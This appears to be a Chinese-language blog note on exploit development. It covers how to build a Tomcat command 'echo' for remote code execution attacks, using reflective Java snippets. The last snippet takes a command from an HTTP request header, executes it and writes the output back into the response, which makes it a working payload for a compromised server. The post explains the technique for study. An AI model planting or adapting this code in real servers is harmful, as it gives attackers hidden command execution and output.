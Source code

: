 这个地方的 req 类名是 org.apache.coyote.Request，通过 req.getResponse() 获取的 response 类名是 org.apache.coyote.Response，这两个都不是 Servlet 是规范实现，而是 Tomcat 自己的，所以 API 的使用上是有出入的。

当看到这串代码的时候，我的注意力就来到了这个 Exception 的 message 打印逻辑，因为 e.printStackTrace() 是支持传 PrintWriter 的，例如 e.printStracTrace(response.getWriter()) 这种就能把堆栈报错直接往 response 里面塞，不过这儿是 org.apache.coyote.Response，查了以下只有 doWrit 方法，我就去请教 Gemini 老师了，[Tomcat Echo: RCE 漏洞利用技术](https://g.co/gemini/share/48cdf3e0d7e4)，没想到他真会！！！

```java
java.io.StringWriter sw = new java.io.StringWriter();
e.printStackTrace(new java.io.PrintWriter(sw));
String exceptionAsString = sw.toString();
```

但是我又看了看 org.apache.coyote.Response 实现的 writeBody 那个东西又臭又长，i dislike

```java
private static void writeBody(Object var0, byte[] var1) throws Exception {
    byte[] var2 = var1;
    try {
        Class var4 = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
        Object var3 = var4.newInstance();
        var4.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(var3, var2, new Integer(0), new Integer(var2.length));
        var0.getClass().getMethod("doWrite", var4).invoke(var0, var3);
    } catch (Exception var6) {
        Class var4 = Class.forName("java.nio.ByteBuffer");
        Object var3 = var4.getDeclaredMethod("wrap", byte[].class).invoke(var4, var1);
        var0.getClass().getMethod("doWrite", var4).invoke(var0, var3);
    }
}
```

转眼我又去看了 [pen4uin/java-echo-generator](https://github.com/pen4uin/java-echo-generator/blob/main/jeg-core/src/main/java/jeg/core/template/tomcat/TomcatCmdExecTpl.java) 的实现方式，发现他拿的就是 ServletResponse 的实现，主要是这个 getNote 方法。

```java
for (int var6 = 0; var6 < var5.size(); ++var6) {
    var3 = var5.get(var6).getClass().getDeclaredField("req");
    var3.setAccessible(true);
    var4 = var3.get(var5.get(var6)).getClass().getDeclaredMethod("getNote", Integer.TYPE).invoke(var3.get(var5.get(var6)), 1);
    String var7;
    try {
        var7 = (String) var3.get(var5.get(var6)).getClass().getMethod("getHeader", new Class[]{String.class}).invoke(var3.get(var5.get(var6)), new Object[]{getReqHeaderName()});
        if (var7 != null) {
            Object response = var4.getClass().getDeclaredMethod("getResponse", new Class[0]).invoke(var4, new Object[0]);
            Writer writer = (Writer) response.getClass().getMethod("getWriter", new Class[0]).invoke(response, new Object[0]);
            writer.write(exec(var7));
            writer.flush();
            writer.close();
            break;
        }
    } catch (Exception ignored) {
    }

}
```
